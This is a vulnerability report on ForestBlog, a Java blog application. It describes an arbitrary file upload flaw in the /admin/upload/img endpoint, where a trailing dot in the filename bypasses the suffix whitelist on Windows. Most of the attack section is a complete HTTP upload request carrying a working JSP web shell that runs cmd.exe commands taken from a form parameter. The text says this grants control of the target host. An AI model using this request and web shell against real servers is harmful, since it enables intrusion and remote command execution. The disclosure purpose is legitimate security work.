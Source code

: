 **BUG_Author:**

Daydust

**Vendor:**

https://github.com/saysky/ForestBlog

**Software:**

https://github.com/saysky/ForestBlog

**Vulnerability File:**

ForestBlog-master/ForestBlog/src/main/java/com/liuyanzhao/ssm/blog/controller/admin/UploadFileController.java

**Description:**
ForestBlog Exists Arbitrary File Upload Vulnerability on /admin/upload/img Interface

When the code processes the logic of file upload, the character after the last dot is used as the suffix name, and a series of judgment danger detection is performed on the suffix name

![image-20231212223542659](img/image-20231212223542659.png)

In Windows system, we can upload any file by adding a "." after the file's name.In this case, the suffix value becomes a period, and allowSuffix contains a period, thus bypassing whitelist suffix detection

![image-20231212235628456](img/image-20231212235628456.png)


Please note that as the front-end also has whitelist restrictions, it is necessary to upload a file in the style of xx.jpgxxxx, or upload a.jpg and modify the data package，For example, 1.jpg.jsp


![image-20231212235938258](img/屏幕截图%202023-12-13%20103310.png)



```http
POST /admin/upload/img HTTP/1.1
Host: 172.24.93.157:8090
Content-Length: 1022
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6Tz1JmHBgIb3k3BS
Origin: http://172.24.93.157:8090
Referer: http://172.24.93.157:8090/admin/user/edit/5
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: username=admin; password=123456; JSESSIONID=0AC95C46C4BFDF9EE9424A1EA925EBA2
Connection: close

------WebKitFormBoundary6Tz1JmHBgIb3k3BS
Content-Disposition: form-data; name="file"; filename="1.jpg.jsp."
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*,java.net.*"%>
<%
//
// JSP_KIT
%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
        Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML>

------WebKitFormBoundary6Tz1JmHBgIb3k3BS--


```

When uploading, the corresponding address will be displayed, or right click on the saved avatar file, you can see the full address. Windows automatically deletes the dot at the end of the file. Therefore, delete the dot at the end of the file to successfully access the file。

Since this directory supports parsing JSP, we can upload the JSP Trojan to obtain the permissions of the target host

![image-20231213000618896](img/屏幕截图%202023-12-13%20103523.png)
![image-20231213000618897](img/屏幕截图%202023-12-13%20103536.png)

You can also see that our files were successfully uploaded locally

![image-20231213000645385](img/屏幕截图%202023-12-13%20103739.png)
